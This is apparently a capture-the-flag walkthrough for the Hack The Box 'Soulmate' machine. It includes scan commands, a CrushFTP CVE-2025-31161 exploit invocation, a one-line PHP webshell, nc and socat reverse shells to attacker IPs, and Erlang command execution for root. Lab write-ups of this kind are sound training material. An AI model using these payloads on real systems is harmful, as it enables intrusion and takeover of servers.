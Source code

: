 ![Alt text for your image](images/image0.png)

# Soulmate HTB Walkthrough

This write-up documents the full exploitation process for the soulmate.htb machine, including reconnaissance, enumeration, exploitation, privilege escalation, and final root access.

-----

## 🔍 Reconnaissance

First, perform a full TCP port scan with Nmap to identify open services:

```bash
nmap -p- -Pn <target> -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && \
nmap -Pn <target> -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && \
nmap -T5 -Pn <target> -v --script vuln -oN nmap_vuln.txt
```

![Alt text for your image](images/image34.png)

-----

## 🌐 Web Enumeration

### Directory brute forcing

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -u http://soulmate.htb/FUZZ -s
```


![Alt text for your image](images/image14.png)

### Subdomain brute forcing

```bash
ffuf -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://10.129.84.47/ -H 'Host: FUZZ.soulmate.htb' -fs 154
```

![Alt text for your image](images/image20.png)

-----

## 📂 FTP Service (CrushFTP)

The domain `ftp.soulmate.htb` resolves to a CrushFTP web interface.


![Alt text for your image](images/image19.png)

The version string found:

```
11.W.657-2025_03_08_07_52
```


![Alt text for your image](images/image18.png)

This version is vulnerable to CVE-2025-31161:

[GitHub PoC – CVE-2025-31161](https://www.google.com/search?q=https://github.com/user/repo)

### Exploit usage:

```bash
python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user test --password admin123
```

![Alt text for your image](images/image6.png)


After exploitation, we can access with our new credentials:

`http://ftp.soulmate.htb/WebInterface/UserManager/index.html`


![Alt text for your image](images/image17.png)

Then we find the users and see that we can change their password, after checking i found that ben has access to the folder where the soulmate app is running so we exploit and login to that account

![Alt text for your image](images/image8.png)

![Alt text for your image](images/image5.png)


-----

-----

## ⚡ Web Shell Access

Upload a PHP webshell:

```php
<?=`$_GET[0]`?>
```

Then from the soulmate.htb webapp we see that we can rce

![Alt text for your image](images/image7.png)

Trigger a reverse shell:

```
http://soulmate.htb/shell.php?0=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff|sh%20-i%202%3E%261|nc%2010.10.15.30%204444%20%3E%2Ftmp%2Ff
```

![Alt text for your image](images/image17.png)

![Alt text for your image](images/image15.png)


-----

## 🔧 Shell Stabilization

```bash
chmod +x socatx64.bin
./socatx64.bin exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.14:4444
```

-----

## 📉 Deadend Enumeration

Some enumeration paths don’t yield privilege escalation.

We checked the config file where there was a hardcoded admin password

![Alt text for your image](images/image21.png)

![Alt text for your image](images/image13.png)

But after logging in we didn't find anything useful and any path to escalate

![Alt text for your image](images/image12.png)



-----

## 📜 Privesc search with linpeas

![Alt text for your image](images/image22.png)


![Alt text for your image](images/image2.png)

A key file is found:

```bash
cat /usr/local/lib/erlang_login/start.escript
```


![Alt text for your image](images/image11.png)


![Alt text for your image](images/image23.png)


-----

## 🔑 Credential Discovery

Inside the configs we find credentials:

```
user: ben
pass: HouseH0ldings998
```

We switch user successfully:

```bash
su ben
Password: HouseH0ldings998
```

## 🏁 User Flag

The user flag is captured.

![Alt text for your image](images/image1.png)

-----

## 🧪 Root Exploitation with Erlang

Then based on the script we ssh into the  localhost 2222 port, based on what the script was doing

![Alt text for your image](images/image3.png)


![Alt text for your image](images/image3.png)

We then discover a shell, after research i found that it is an erlang shelll and also learnt the syntax to execute on the machine

By experimenting with Erlang command execution:

![Alt text for your image](images/image9.png)

Final command for root flag:

```erlang
os:cmd("cat /root/root.txt").
```

-----

## ✅ Conclusion

We gained access through:

1.  **Enumeration** → Identified CrushFTP.
2.  **Exploitation** → CVE-2025-31161 for account creation.
3.  **Shell** → Uploaded PHP webshell.
4.  **Privilege Escalation** → Erlang `os:cmd/1` execution.
5.  Captured both `user.txt` and `root.txt`.
